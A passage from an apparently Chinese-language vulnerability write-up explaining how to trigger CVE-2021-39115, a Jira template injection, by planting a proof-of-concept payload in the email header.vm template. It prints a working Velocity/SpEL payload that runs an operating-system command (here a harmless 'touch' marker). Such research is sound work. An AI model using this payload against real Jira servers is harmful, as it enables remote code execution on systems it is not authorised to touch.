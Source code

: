 [![](assets/1708149766-0887d42250c0e7fd7a6aa3062d45692b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515172918-7e8328e6-d431-1.png)

### 2、如何从邮件 body 触发模版注入漏洞

这个漏洞的本质就是`CVE-2021-39115`，有兴趣的可以去看看，漏洞的成因是使用 Jira Administrator 权限去覆盖 vm 文件，并在 vm 文件当中填入 payload 完成漏洞的触发。

文件路径在`/jira/atlassian-jira-software-8.2.2-standalone/atlassian-jira/WEB-INF/classes/templates/email/html/includes/header.vm`，因为邮件服务的模版里面包含了这个文件，所以我们在文件中加入`CVE-2021-39115`的 poc 即可。然后随便发一封邮件，就可以触发 poc。

```bash
#set($SpelExpressionParser = $jirautils.loadComponent('org.springframework.expression.spel.standard.SpelExpressionParser',$i18n.getClass()))
    $SpelExpressionParser.parseRaw("T(java.lang.Runtime).getRuntime().exec('touch /tmp/success4')").getValue()
```

[![](assets/1708149766-414045c361c2e76f98892b01fe53d81a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515172933-87b23f56-d431-1.png)

[![](assets/1708149766-f5c895af530b9d6af3104846ae40ca98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515172953-936e0d02-d431-1.png)
